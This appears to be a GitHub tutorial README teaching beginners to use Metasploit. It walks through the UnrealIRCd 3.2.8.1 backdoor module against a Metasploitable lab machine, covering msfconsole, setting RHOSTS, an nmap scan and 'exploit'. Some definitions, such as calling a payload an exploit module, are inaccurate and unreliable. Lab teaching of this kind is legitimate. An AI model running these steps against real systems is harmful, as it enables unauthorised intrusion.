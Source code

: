 # Metasploit
Metasploit is a framework used in pen-testing that simplified hacking.

## Vocabulary
- Payload = **exploit module**. They are simple scripts used to interact with the target. A payload can transfer data to the victim's system.
- Exploit = **tool designed to take advantage of a flaw in a computer system**. An exploit is either  **active** : exploit a specific host, run until completion, and then exit *or* **passive**: wait for incoming hosts and exploit them as they connect.

Command to force an active exploit to work in the background
````
exploit -j
````
             
Command to enumerate a passive exploit

````
sessions -l
````
                                                       
## How to use
- Pick a target
- Choose and exploit
- Pick a payload to drop
- Start the exploit

## Useful commands
To access the Metasploit console. After entering the command, we will see the ```` msf > ```` header, indicating we have sucessfully entered the console

````
msfconsole
````
Access the help menu. This menu is really helpful if you want to look up the list of available commands to use.

```
help
```
To show the list of available exploits we can use

````
show exploits
````


To use an exploit:

```
use <exploit name>
```

Example: 
We want to use the unreal exploit
```
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
```
When you're using an exploit, we will see the cmd change: 

![ss](/img/msf.png)


Metasploit can be customized for each case as well. To do this, use the ```set``` command

The attributes we can modify are called **variables**
There are 4 most used variables:
**LHOST** = Local Host, or Kali System
**RHOSt** = Remote Host, or our target system
**LPORT** = Port we want to use on our Kali System
**RPORT** = Port we want to attack on our target system

To see all the variables, use the ```show``` command

```show options```

![ss](/img/msf2.png)

This particular exploit uses 2 varibles, RPORT and RHOST. We can edit these variables to match our target's system.

use the below command to see which targets are available to lauch our exploit. We can set multiple targets depending on our exploits as well.

``` show targets```

![ss](/img/msf3.png)

This means we have not assign a target yet, so let's do that! We will need a vulnerable machine to be our target

The easiest way to set up a vulnerable machine is by using Metasploitable. Let's head over to [Metasploitable](https://github.com/songmayphan/Offensive-Security/blob/main/Metasploitable.md) README to see how to set up your target.


# Starting an exploit

## Set up the exploit's variables

This particular exploit uses 2 varibles, RPORTS and RHOST. We can edit these variables to match our target's system.
To do this, run the ```set``` command

RHOST is our target's hos. We got this from run ```ifconfig``` on our target machine.
````set RHOSTS 192.168.1.52````

![ss](/img/msf5.PNG)

run ```show options``` to see that our target host has been set up

![ss](/img/msf6.PNG)

To find a vulnerable port on our target machine, use NMAP Security Scanner on our attacking machine

````nmap 192.168.1.52````
We'll see that port 6667 (default on our exploit) is open, which is good. We can keep it that way

![ss](/img/msf8.PNG)

This is all we need right now to run this exploit. Run the exploit command to execute it

```exploit```

We had just finished our first exploit with Metasploit :congratulation:

For more information, visit these links below

![Vulnerability Guide Metasploit] (https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide)
![Metasploit main Website] (https://www.metasploit.com/)

